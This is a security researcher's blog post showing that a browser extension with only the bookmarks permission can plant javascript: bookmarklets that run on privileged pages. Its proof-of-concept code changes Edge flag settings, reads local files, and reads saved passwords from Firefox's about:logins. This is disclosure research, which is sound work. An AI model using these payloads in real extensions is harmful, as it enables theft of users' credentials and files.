 # That evil bookmark in your browser 

Sometime back, I decided to look at bookmarks API available for browser extensions. This API is sounds interesting to me because it allows you to play with user bookmarks using browser extensions.

If you want to know how extensions and permissions works please consider reading the first part of my previous blog post https://payatu.com/blog/Nikhil-Mittal/microsoft-edge-extensions-host-permission-bypass-cve-2019-0678

to work with `bookmark API` a browser extension needs `boookmark` permission written in the manifest file

Let's create a manifest file that has only `bookmark` permission which means the extension will only be able to create, delete and update bookmark nothing else like executing javascript codes.

> manifest.json
```
{
  "name": "Evil Edge Extension",
  "author": "@C0d3G33k",
  "description": "This Extension achive evil things!",
  "version": "1.0",
  "icons": {
    "25": "images/color-changer25.png",
    "48": "images/color-changer48.png"
  },
  "permissions": [
    "bookmarks"
  ],
  "browser_action": {
    "default_icon": {
      "20": "images/color-changer20.png",
      "40": "images/color-changer40.png"
    },
    "default_title": "Evil Extension",
    "default_popup": "popup.html"
  },
  "content_scripts": [{
    "matches": [
        "<all_urls>"
    ],
    "js": ["js/content.js"],
    "run_at": "document_end"
}],
  "background": {
    "scripts": ["/js/background.js"],
    "persistent": true
  }
}
```
Further let's create a default popup file as defined in manigest file

> popup.html

```
<!DOCTYPE html>
<html>
  <head>
    <link rel="stylesheet" type="text/css" href="css/styles.css" />
  </head>
  <body>
    
    <p>Evil Extension</p>
    <input id="b1" type="button" value="Open" />
    <input id="b2" type="button" value="Execute" />
    <script src="js/popup.js"></script>
  </body>
</html>
```

Let's again define JS file and create a simple bookmark in browser

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');


open.onclick = function() {
  browser.tabs.update	({
  	url: "https://www.google.com/"
  });
};

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Google!",
      url: "https://www.google.com"
  });

};

```

![1.gif](1.gif)

Now the interesting thing here is most of the browsers are allowed to create `bookmarklets` using browser extensions

A `bookmarklet` is a bookmark stored in a web browser that contains JavaScript commands, the main purpose of `bookmarklets` is always to add extra features to the browser

for example a simple alert to get the first URL' from current page
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Display first link!",
      url: "javascript:alert(document.getElementsByTagName('a')[0].href);"
  });

};
```
![2.gif](2.gif)

Browser vendors are sweet enough to provide so many feature, but what could go wrong with this implementation? 

Do you remember of privilaged pages in browsers which contains so many sancitive informations and settings? which sould be protected form javascript code execution

As i mentioned in my previous post if you try directly load `about:flags` in edge and try to execute bookmarklets it would not work.

![3.gif](3.gif)

But we have another ways to load `about:flags` using `res://` URI's like `res://edgehtml.dll/flags.htm`. So let's modify our code and try again

```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update	({
  	url: "res://edgehtml.dll/flags.htm"
  });
};

// to create book mark

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(window.location.href);"
  });

};

```
![4.gif](4.gif)

well that works absolutaly fine for us! and it creates another elevation of privilage vulnerability in edge. and hence we can change settings in `about:flags` like 

### Enabling/Disabling Adobe flash player
```
let open = document.getElementById('b1');
let execute = document.getElementById('b2');

// to load about:flags

open.onclick = function() {
  browser.tabs.update	({
  	url: "res://edgehtml.dll/flags.htm"
  });
};

// to toggle adobe flash player flag

execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:document.getElementById('BchostLocalhostLoopback').click();"
  });

};

```
![5.gif](5.gif)

### Stealing any local files on the system

Since edge does not enforce SOP for file URI's so if have opened any local files, then the evil bookmark can steal any files from the system.
```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!!!!",
      url: "javascript:let xhr = new XMLHttpRequest();xhr.open('GET','file:///C:/Users/reach/Desktop/test.txt');xhr.send();setTimeout('alert(xhr.response)',3000)"
  });
 
};
```

Next let's check other browsers as well
In firefox we are allowed to execute bookmarklets in reference to the following pages 
```
about:certificate
about:compat
about:library
about:logins
about:home
about:privatebrowsing
about:protections
about:studies
about:welcome
```

### Stealing user credentials in firefox 

In firefox `about:logins` contain all the saved passwords, since we can execute javascript code reference to it, we can easily still all the saved logins, Let's modify the code and check

```
execute.onclick = function() {

  browser.bookmarks.create({
      title: "Evil BookMark!",
      url: "javascript:alert(document.all[30]._passwordInput.value)"
  });

};
```

![6.gif](6.gif)

### Changing other extensions settings

In firefox we can even change settings related to other installed extensions, Can you imagine the situation when one extension in browser can disable feratures of another one. 

![7.gif](7.gif)

As per my test cases chrome is safe against this vulnerability since it does not allows any bookmarklets on privlaged pages. 

### Root Cause

-----

Bookmarks are also gettings synked to other connected devices which belongs to same account, which is again another possible source of attack. 




